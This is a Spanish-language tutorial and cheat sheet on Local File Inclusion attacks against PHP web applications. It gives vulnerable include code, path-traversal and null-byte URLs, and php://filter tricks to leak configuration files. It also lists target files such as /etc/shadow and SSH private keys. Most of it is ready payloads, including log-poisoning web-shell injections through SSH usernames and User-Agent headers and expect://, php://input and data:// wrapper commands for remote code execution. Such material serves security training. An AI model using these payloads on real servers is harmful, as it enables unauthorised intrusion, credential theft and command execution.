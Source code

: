 # LFI - Local File Inclusion

# Local File Inclusion (LFI)

LFI, (Local File Inclusión) consiste en acceder a archivos no autorizados de la máquina victima. Esta vulnerabilidad le permite al atacante obtener acceso a archivos confidenciales en el servidor y también podría conducir a obtener un shell.

## ¿Como funciona?

La vulnerabilidad ocurre cuando el usuario entra a páginas que cargan contenido de archivos y no está **sanitizada**. 

LFI es particularmente común en sitios php.

Aquí mostramos un ejemplo de código php vulnerable a LFI. Como se puede ver, simplemente pasamos el parámetro page con el nombre de la página a cargar y no hay ningún tipo de control. Entonces, podemos  agregar la ruta de cualquier archivo.

```php
$file = $_GET['page'];
require($file);
```

Podemos también usar técnicas de **Directory Path TRaversal**.

```
http://example.com/page=../../../../../../etc/passwd
```


## Omitir el agregado de .php u otras extensiones.

Es muy común agregar la extensión `php` en la propia programación:

```php
$file = $_GET['page'];
require($file . ".php");
```

Al agregar el programa la extensión, si queremos buscar `/etc/passwd` el programa buscará `/etc/passwd.php`. Para solventar este problema podemos usar la técnica del byte nulo que consiste en añadir `%00` al final.

```
http://example.com/page=../../../../../../etc/passwd%00
```

Otra forma de solventar  este problema es simplemente agregar un signo de interrogación al final. De esta forma, todo lo que hay posterior al interrogante lo interpreta la aplicación como parámetro.

```
http://ejemplo.com/page=../../../../../../etc/passwd?
```

## Omitir la ejecución de php

Con LFI podemos leer archivos de texto, `*.txt` fácilmente, pero tenemos un problema si queremos leer archivos `php`.

El problema es que los ejecuta. Imaginemos que sabemos por **fuzzing** que hay un fichero llamado `config.php`. Normalmente en este archivo está la conexión a la base de datos con el usuario y la contraseña de base de datos.

Si ponemos `http://example.com/index.php?page=config.php` nos aparece una página en blanco ya que el código PHP se ha ejecutado. La forma de solventar este problema es utilizar **wrappers PHP**.


Este ejemplo nos devuelve el contenido en `base 64` del fichero indicado utilizando el wrapper `php://filter`.
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```

De forma que luego nosotros podremos decodificarlo en un terminal:

```bash
echo cadenabase64 | base64 -d > config.php
```


## LFI en Linux

### Trucos

**Descargar archivos de configuración en un formato de estilo agradable

Leer archivos directamente en el navegador puede ser muy tedioso. Una forma de hacerlo mas agradable  es leer los archivos desde el terminal. Usamos para ello `curl`:

```bash

curl -s http://example.com/gallery.php?page=/etc/passwd 

```

Ahi que tener en cuenta si tenemos que mandar cooky, si hay que autenticarse primero, ....

### Archivos importantes


Se listan a continuación los archivos mas importantes a visualizar en sistemas Linux:

```
/etc/issue (Mensaje que se escribe antes del inicio de sesión)
/etc/motd (Mensaje del contenido del banner del día. Puede contener información sobre los propietarios del sistema o el uso del sistema).
/etc/passwd 
/etc/group 
/etc/resolv.conf 
/etc/shadow
/home/[USUARIO]/.bash_history o .profile
~/.bash_history o .profile
$USER/.bash_history o .profile
/root/.bash_history o .profile
/etc/mtab  
/etc/inetd.conf  
/var/log/dmessage
/etc/sudoers
/etc/crontab
```

**Ficheros de servidor Web**

```
# Normalmente en la ruta de la aplicación web
.htaccess
config.php
```

**SSH**

```
authorized_keys
id_rsa
id_rsa.keystore
id_rsa.pub
known_hosts
```

**Logs**

```
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access_ log 
/usr/local/apache/logs/access. log 
/var/log/apache/access_log 
/var/log/apache2/access_log 
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/access_log
```


**Ficheros de procesos**

En Linux, la ruta `/proc` incluye un directorio para cada proceso en ejecución, incluidos los procesos del kernel, en directorios denominados /proc/PID, donde PID es el número de proceso. Cada directorio contiene información sobre un proceso, que incluye: `/proc/PID/cmdline`, el comando que originalmente inició el proceso".

```
/proc/sched_debug # Se puede usar para ver qué procesos se están ejecutando en la máquina
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

## Local File Inclusion (LFI) a Remote Code Execution (RCE)

Existen varias técnicas para intentar ejecución remota de comandos desde una LFI.

### Log Poisoning

También llamado envenenamiento del log. Si tenemos acceso a archivos de log del sistema y el servidor ejecuta `php` podríamos ejecutar comandos si consiguiéramos introducir php en dichos log.

**Log poisoning SSH**

Tenemos acceso al fichero de log del servicio SSH porque este está activo. Podríamos verlo con esta ruta de ejemplo.

http://ejemplo.com?page=../../../../../../var/log/access.log

Podemos intentar introducir código en access.log intentando una conexión ssh con un payload. Se entiende que ssh está activo.

```bash
ssh "<?php system($_GET['cmd']); ?>"@ipvictima
```

Ponemos 3 veces una password para que falle. Quedará traza en access.log por lo que podremos ejecutar comandos:

http://ejemplo.com?page=../../../../../../var/log/access.log&cmd=whoami

**Log poisoning Apache**

Si se trata de un servidor apache con LFI tendríamos que poder ver el fichero `/var/log/apache2/access.log`.

Entonces solo tendríamos que interceptar una petición con **BurpSuite** y modificar la cabecera **User Agent** con un payload:

```
GET /index.php?page=<log-file>
Host: <target>
User-Agent: <?php system($_GET['cmd']); ?>
```

Y lo mismo:

http://ejemplo.com?page=../../../../../../var/log/apache2/access.log&cmd=whoami

### Wrappers PHP

Se puede realizar RCE con wrappers php. Estos deben estar activados en el servidor por lo que no siempre funcionan.

**Wrapper expect://**

Este wrapper está deshabilitado de forma predeterminada.
```
http://ejemplo.com/index.php?page=expect://whoami
```

**Wrapper input://**

Es posible utilizar este wrapper solo si la opción allow_url_include está habilitada en la configuración de PHP.

```
curl -s -X POST --data "<?php system('id'); ?>" "http://ejemplo.com/index.php?page=php://input" | grep whoami
```

**Wrapper data://**

Es posible utilizar este wrapper solo si la opción allow_url_include está habilitada en la configuración de PHP.

http://ejemplo.com/index.php?page=data://text/plain,<?php phpinfo(); ?>
http://ejemplo.com/index.php?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http:///ejemplo.com/index.php?page=data://text/plain,<?php system('whoami'); ?>
http:///ejemplo.com/index.php?page=data://text/plain;base64,payloadenbase64